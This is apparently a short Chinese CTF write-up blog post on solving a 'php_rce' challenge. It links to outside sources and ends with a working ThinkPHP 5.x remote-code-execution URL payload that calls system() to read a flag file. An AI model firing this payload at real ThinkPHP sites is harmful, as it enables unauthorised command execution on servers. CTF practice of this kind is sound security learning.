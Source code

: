 ```yaml
---
title: php_rce
tags: [Writeups, WEB]
categories: CTF
date: 2020-03-26 13:27:59
---
```


**关于ThinkPHP的漏洞利用和语句执行**
<!-- more -->
{% img D:\Hexo\source\_posts\CTF\web_wp\php-rce\页面.png %}
因为对漏洞了解太少，只能直接搜RCE
然后出现了ThinkPHP V5之前的REC漏洞
看不懂啊。。。
[漏洞复现](https://www.cnblogs.com/backlion/p/10106676.html)
![](php-rce/payload1.png)
![](php-rce/payload2.png)

[得到flag的网站](https://blog.csdn.net/qq_40884727/article/details/101381071)

```php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20%27system("cat%20../../../flag");%27
```